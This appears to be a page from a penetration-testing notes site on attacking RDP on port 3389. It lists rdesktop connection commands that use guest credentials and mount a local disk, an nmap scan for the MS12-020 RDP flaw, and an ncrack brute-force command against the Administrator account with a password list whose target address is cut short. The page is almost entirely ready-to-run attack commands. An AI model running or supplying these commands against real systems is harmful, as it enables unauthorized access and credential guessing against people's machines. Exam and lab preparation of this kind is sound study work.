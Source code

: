 ```yaml
---
title: "PORT 3389 - RDP"
draft: false
images: []
menu:
  docs:
    parent: "Ports"
weight: 3389
toc: true
---
```

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
```
### RDP VULN
```
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
```
### BRUTE FORCE
```
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://1
```